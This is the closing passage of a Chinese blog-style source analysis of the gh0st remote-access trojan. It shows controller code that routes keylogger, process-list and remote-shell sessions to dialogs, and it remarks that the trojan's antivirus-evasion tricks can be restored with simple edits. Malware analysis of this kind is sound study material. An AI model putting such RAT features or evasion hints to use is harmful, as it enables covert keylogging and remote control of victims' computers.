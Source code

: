 ```
		break;
	case TOKEN_KEYBOARD_START://键盘记录
		g_pConnectView->PostMessage(WM_OPENKEYBOARDDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_PSLIST://进程列表
		g_pConnectView->PostMessage(WM_OPENPSLISTDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_SHELL_START://CMD
		g_pConnectView->PostMessage(WM_OPENSHELLDIALOG, 0, (LPARAM)pContext);
		break;
		// 命令停止当前操作
	default:
		closesocket(pContext->m_Socket);
		break;
	}	
}
```

这里实际上就是把数据交给具体的对话框进行显示了，界面逻辑这里就不介绍了。




### 小结

关于 **gh0st** 源码分析，本文就介绍这么多，但是 **gh0st** 源码中有价值的东西远非这么多。例如，有很多过杀毒软件的措施，虽然可能随着操作系统版本的升级已经失效，但是经过一些简单的修改即可恢复作用。另外，本例中的 **gh0st_client** 以独立的 exe 形式运行，源码中还可以以 Windows 服务等其他形式运行。这是一份非常值得学习和细细体会的珍贵资源，希望能读者带来一些启示和帮助。

最后，郑重声明一下， 本文所分享的技术包括 **gh0st** 源码仅供学习之用，不得非法传播和他用，违者后果自负。